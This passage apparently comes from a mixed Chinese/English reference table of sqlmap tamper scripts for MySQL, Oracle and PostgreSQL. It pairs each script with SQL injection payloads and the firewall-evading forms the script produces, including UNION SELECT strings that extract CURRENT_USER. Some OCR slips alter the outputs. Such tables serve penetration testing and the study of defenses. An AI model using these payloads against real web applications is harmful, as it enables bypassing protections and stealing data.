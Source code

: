 | 10              | space2mysqldash.py           | 替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’） | ('1 AND 9227=9227') '1--%0AAND--%0A9227=9227'                |
| 11              | bluecoat.py                  | 代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like | ('SELECT id FROM users where id = 1') 'SELECT%09id FROM users where id LIKE 1' |
| 12              | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |
| 13              | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |
| 14              | randomcase.py                | 随机大小写                                                   | * Input: INSERT * Output: InsERt                             |
| 15              | versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))# |
| 16              | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |
| 17              | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |
| 18              | versionedmorekeywords.py     | 注释绕过                                                     | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# |
| MySQL < 5.1     |                              |                                                              |                                                              |
| 19              | halfversionedmorekeywords.py | 关键字前加注释                                               | * Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa * Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa |
| 20              | halfversionedmorekeywords.py | 当数据库为mysql时绕过防火墙，每个关键字之前添加 mysql版本评论 | 1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |
| MySQL >= 5.1.13 |                              |                                                              |                                                              |
| 21              | space2morehash.py            | 空格替换为 #号 以及更多随机字符串 换行符                     | * Input: 1 AND 9227=9227 * Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 |
| Oracle          |                              |                                                              |                                                              |
| 1               | greatest.py                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'                    |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")  '1 AND %00%271%00%27=%00%271'        |
| 3               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |
| 4               | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |
| 5               | randomcase.py                | 随机大小写                                                   | * Input: INSERT * Output: InsERt                             |
| 6               | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |
| 7               | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |
| PostgreSQL      |                              |                                                              |                                                              |
| 1               | greatest.py                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'                    |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")  '1 AND %00%271%00%27=%00%271'        |
| 3               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |